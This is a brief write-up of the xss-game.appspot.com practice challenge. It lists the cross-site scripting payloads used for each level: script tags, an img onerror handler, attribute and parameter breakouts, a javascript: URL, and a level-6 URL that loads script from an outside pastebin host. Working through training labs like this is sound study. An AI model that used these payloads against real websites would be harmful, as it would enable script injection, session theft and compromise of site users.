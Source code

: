# Writeup xss-game.appspot.com

![](<../.gitbook/assets/image (264).png>)

&#x20;\<script>alert('test');\</script>

![](https://telegra.ph/file/7e09bb5bce9c983973c96.png)

\<IMG SRC=/ onerror="alert(паставтезочет)">\</img>

![](https://telegra.ph/file/4f23b981797f19de9a853.png)

frame#1'/>'window.location='\<script>alert('POSTAVTE ZACHET');\</script>

![](https://telegra.ph/file/56195fb04355e144048e7.png)

timer=69') || alert ('zachetplease

![](https://telegra.ph/file/8b03318ddbe7c8eb2f740.png)

signup?next=javascript:alert('pfff')

![](https://telegra.ph/file/2d7a03cf31cfb09164930.png)

[https://xss-game.appspot.com/level6/frame#Https://pastebin.com/raw/dhZT7Ubw](https://xss-game.appspot.com/level6/frame#Https://pastebin.com/raw/dhZT7Ubw)

![](https://telegra.ph/file/d03be6f3780679b49873f.png)
